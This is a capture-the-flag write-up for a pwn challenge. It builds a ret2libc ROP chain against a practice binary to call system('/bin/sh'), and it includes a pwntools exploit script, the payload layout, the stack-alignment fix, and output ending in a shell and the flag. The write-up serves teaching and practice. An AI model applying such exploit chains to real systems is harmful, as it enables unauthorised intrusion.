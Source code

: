 # Roptastic shell

<p align="center">
<img src="./utils/roptastic_shell.png" alt="Challenge" width="500"/>
</p>

Connecting to the remote instance with `netcat` we are given some of the [source code](./utils/program.c) for the challenge. We are also given the goal of the challenge, and some options to interact with the program.

```
Your goal is to create a ROP chain that calls system("/bin/sh")
Use the menu options to lookup the address of system(),
and to add the "/bin/sh" string as an argument.

Google these terms for help:
- ret2libc

Good luck!

1. Fill buffer
2. Print stack frame
3. Verify ROP chain
4. Print challenge description
5. Print gadgets
6. Lookup symbol
7. Add string
8. [Quit]
>
```

The program for this challenge is similar to the earlier ones, but we have to spawn a shell instead of just setting popping values into registers. For this solve, we will utilize the options which prints the gadgets, writes a string to the binary, and looks up the address of a symbol in the binary (the last two weren't used in the previous challenges).


Our goal is similar to the `did someone say ret2win?` challenge, only that we want to call `system("/bin/sh")` instead of `win()`. To do this we need three things: the address of the `pop_rdi` gadget, the address of the string `/bin/sh` in the binary, and the address of `system`. The `pop_rdi` gadget we already know, and it is also printed to us when we choose option `5`. We don't know the address of the string `/bin/sh` in the binary, so we will add it ourselves using option `7`. The address of `system` we can look up using option `6`.
```python
from pwn import *

# Connect to remote instance
io = remote("pwn.tokle.dev", 1342)

# Receive all the output text from the program
io.recvuntil(b"Good luck!")

def get_gadgets():
    io.sendlineafter(b"> ", b"5")
    io.recvuntil(b"pop rdi; ret: ")
    pop_rdi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rsi; ret: ")
    pop_rsi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rdx; ret: ")
    pop_rdx = int(io.recvline().strip(), 16)
    return pop_rdi, pop_rsi, pop_rdx

def add_str(string):
    io.sendlineafter(b"> ", b"7")
    io.sendlineafter(b"String: ", string)
    io.recvuntil(b"String at: ")
    return int(io.recvline().strip(), 16)

def get_symbol_addr(symbol):
    io.sendlineafter(b"> ", b"6")
    io.sendlineafter(b"Symbol: ", symbol.encode())
    io.recvuntil(f"{symbol}: ".encode())
    return int(io.recvline().strip(), 16)

# Get address of gadgets
pop_rdi, pop_rsi, pop_rdx = get_gadgets()
log.success(f"Pop RDI @ {hex(pop_rdi)}")
log.success(f"Pop RSI @ {hex(pop_rsi)}")
log.success(f"Pop RDX @ {hex(pop_rdx)}")

# Add "/bin/sh" string
binsh = add_str(b"/bin/sh")
log.success(f"/bin/sh @ {hex(binsh)}")

# Get address of "system" function
system = get_symbol_addr("system")
log.success(f"system @ {hex(system)}")
```

As we have everything we need we can assemble our payload to get a shell! We know that the offset to the saved return address is 136 bytes. Inside `rdi` we need to put the address of `/bin/sh`, not the string itself! This is because the argument to the `system` function is the address where the string is located, not the string itself. Lastly, after we have set the `rdi` register to the address of `/bin/sh`, we call the `system` function.

```python
# ROP to get shell
payload = b"A"*136
payload += p64(pop_rdi) # "pop rdi; ret;" gadget
payload += p64(binsh)   # Address where "/bin/sh" string is stored
payload += p64(system)  # Address of "system" function
```

Sending and triggering the payload should then call `system("/bin/sh")` for us, and give us shell!
```python
# Send and trigger payload
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"Data: ", payload)
io.sendlineafter(b"> ", b"8")

io.interactive()
```


But it doesn't work... This is because of something called [The MOVAPS Issue](https://ropemporium.com/guide.html#common-pitfalls). TLDR; We need to put the call to system on a stack address ending in 0, not 8. Because we cannot reduce our payload with 8 bytes (we cannot remove the padding, because then we don't overwrite the return address as we want), we have to add 8 more bytes before we call system. The "standard" way to do this is to use another gadget: `ret;`. Luckily, this gadget is *everywhere* in binaries, so even though we are not given the explicit address of it in this challenge, we can still find it easily.

The first way to find the gadget is to add 1 to the address of our `pop_rdi` gadget. Because the `pop_rdi` gadget ends with a `ret` instruction (pop rdi; ret;), and the `pop rdi` gadget is only a single byte, if we add 1 we get only the `ret` part of that gadget.

Another way to find a `ret` gadget is by knowing that the originally saved return address is the address of a gadget with the operations `mov eax, 0; leave; ret;`. The `mov` instruction is 3 bytes in size, and the `leave` instruction is 1 byte in size. Therefore we know that a `ret` instruction is located at the address of the saved return address + 4 bytes.
The following full exploit script will use the first option, but both work equally good.

The full, and commented, exploit script can be found in [solve.py](./solve.py).

```console
$ python3 solve.py
[+] Opening connection to pwn.tokle.dev on port 1342: Done
[+] Pop RDI @ 0x4038db
[+] Pop RSI @ 0x4038dd
[+] Pop RDX @ 0x4038df
[+] /bin/sh @ 0x475480
[+] system @ 0x788dd6f07d70
[*] Switching to interactive mode
$ cat flag.txt
flag{ropping_your_way_to_flags}
```